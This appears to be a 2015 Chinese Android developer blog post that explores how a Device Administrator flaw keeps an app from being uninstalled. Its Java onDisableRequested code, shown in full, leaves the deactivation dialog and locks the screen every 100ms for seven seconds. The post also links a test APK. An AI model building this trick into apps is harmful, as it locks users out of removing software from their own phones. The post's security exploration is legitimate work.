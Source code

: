 ```yaml
---
layout: post
title: "无法卸载的 App - 设备管理器漏洞"
tags: [Android]
---
```

前两天某朋友发现手机有个app无法卸载，后知其因设备管理器激活导致，遂去尝试取消，但却在取消那刻卡机。反复折腾之后，只能重刷。后来他发了一篇关于设备管理器bug的文章给我，便有了如下一番折腾。

##**尝鲜**

文章[《Android 学习 设备管理器勾选后不能再取消了》](http://androidmaster.iteye.com/blog/2035381)（作者：带个回家）大致意思是：
> 继承 DeviceAdminReceiver 重写 onDisableRequested(Context context, Intent intent) 即可达到目的。

<!-- more -->

```java
@Override
public CharSequence onDisableRequested(Context context, Intent intent) {
    // 这里处理 不可编辑设备。
    Intent intent2 = new Intent(context, NoticeSetting.class);
    intent2.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
    context.startActivity(intent2);
    context.stopService(intent);// 是否可以停止
    return ""; // "这是一个可选的消息，警告有关禁止用户的请求";
    }

```

在此之前，我并没有接触过设备管理器的功能，参考了 API Guides 的 [Device Administration](http://developer.android.com/guide/topics/admin/device-admin.html) ，以及 [DeviceAdminReceiver](http://developer.android.com/reference/android/app/admin/DeviceAdminReceiver.html) 的 API 后，试着写了一个跟上述文章一样的 app，**4.4 & 5.0均测试失败，可以正常取消激活**。

##**再战**

搜索，找到[《Android设备管理器漏洞》](http://blog.csdn.net/androidsecurity/article/details/9124747)（作者：Jack_Jia）另一篇讲解此问题的文章。文章提到：
> 如果想在设备管理器列表中”隐身“，只要不注册 `android.app.action.DEVICE_ADMIN_ENABLED` 广播就行。

也就是不给 `intent-filter` 标签设置该 action。

```xml
<receiver
    android:name=".MyDeviceReceiver"
    android:description="@string/receiver_description"
    android:label="@string/app_name"
    android:permission="android.permission.BIND_DEVICE_ADMIN">

    <meta-data
        android:name="android.app.device_admin"
        android:resource="@xml/device_manager_policies" />

    <intent-filter>
    
    </intent-filter>

</receiver>
```

**4.4 & 5.0测试失败，设备管理器无法激活（代码激活不会弹出，设备管理器又找不到）。**

##**三战**

继续搜索，发现百度安全实验室一篇文章[《Android设备管理器漏洞2》](http://safe.baidu.com/2014-10/deviceadminexploit2.html)。文章提到：

> 已激活设备管理器权限的手机木马利用该漏洞，可以在设置程序的设备管理器列表中隐藏，这样用户就无法通过正常途径取消该手机木马的设备管理器权限，从而达到无法卸载的目的。Android4.2版本以上系统已经修复该漏洞。
> 
>...
>
>通过调用stopAppSwitch()方法，系统保证在进入取消设备管理器界面后，**5秒内不会进行Activity的切换。**
>
>...
>
>onDisableRequested函数满足以下条件即可：
>
1、返回内容不能为空，这样才可以使设备管理器弹出取消激活设备管理器警示信息 Dialog。
>
2、通过Activity切换的方式使设备管理器弹出的警示信息Dialog消失。使用户无法操作Dialog。
如果做到以上两点，程序即可成功阻止用户取消激活设备管理器操作。


故，只要在 onDisableRequested 方法中，让用户在取消激活时5s内无法操作界面，然后采取 Activity 切换的方法即可绕开取消激活的步骤。这里为了测试直观并且试一试设备管理器的 api，采用了百度提供的连续锁屏法。测试环境为5.0。

```java
public CharSequence onDisableRequested(Context context, Intent intent) {                                            
                                                                                                                    
    //跳离当前询问是否取消激活的 dialog                                                                                          
    Intent outOfDialog = context.getPackageManager().getLaunchIntentForPackage("com.android.settings");             
    outOfDialog.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);                                                            
    context.startActivity(outOfDialog);                                                                             
                                                                                                                    
    //调用设备管理器本身的功能，每 100ms 锁屏一次，用户即便解锁也会立即被锁，直至 7s 后                                                                
    final DevicePolicyManager dpm = (DevicePolicyManager) context.getSystemService(Context.DEVICE_POLICY_SERVICE);  
    dpm.lockNow();                                                                                                  
    new Thread(new Runnable() {                                                                                     
        @Override                                                                                                   
        public void run() {                                                                                         
            int i = 0;                                                                                              
            while (i < 70) {                                                                                        
                dpm.lockNow();                                                                                      
                try {                                                                                               
                    Thread.sleep(100);                                                                              
                    i++;                                                                                            
                } catch (InterruptedException e) {                                                                  
                    e.printStackTrace();                                                                            
                }                                                                                                   
            }                                                                                                       
        }                                                                                                           
    }).start();                                                                                                     
                                                                                                                    
    return "";                                                                                                      
}                                                                                                                   
```

1. 安装后打开直接跳转激活界面：
![安装后打开直接跳转激活界面](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-1.jpeg?imageslim)


2. 一旦激活则无法正常卸载
![一旦激活则无法正常卸载](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-2.jpeg?imageslim)

3. 进入设备管理器界面
![进入设备管理器界面](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-3.jpeg?imageslim)

4. 尝试取消激活
![尝试取消激活](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-4.jpeg?imageslim)

5. 强制进入锁屏
![强制进入锁屏](http://2bab-images.lastmayday.com/blog/2015-02-09-app-cannot-be-uninstalled-5.jpeg?imageslim)

至此，用户用普通方法无法卸载该app。测试使用某数字软件可以卸载，具体步骤：在数字软件的软件卸载功能中卸载Trick，此时提示取消激活，跳转到设备管理器界面取消激活，引发锁屏，强制锁屏7s结束后，切回数字软件，你会发现出现了取消激活的dialog，点击取消成功。

而文章开头提到的流氓软件，实则是跳转到一个所有按钮无效的自定义全屏界面（不是我这样跳到设置界面），使用数字软件无法解决问题。

##**总结**

日后看到设备管理器激活申请定要小心三分，本文提及内容请勿不正当使用。

##**相关下载**

- [源码Gist](https://gist.github.com/2BAB/786513de79b7bfd82c3f)
- [测试APK](http://engineering-blog-2bab.qiniudn.com/DeviceAdmin-DeviceAdminTrick.apk)，安装后激活则无法卸载。
- [恢复APK](http://engineering-blog-2bab.qiniudn.com/DeviceAdmin-recovery.apk)，覆盖安装后可顺利取消激活。

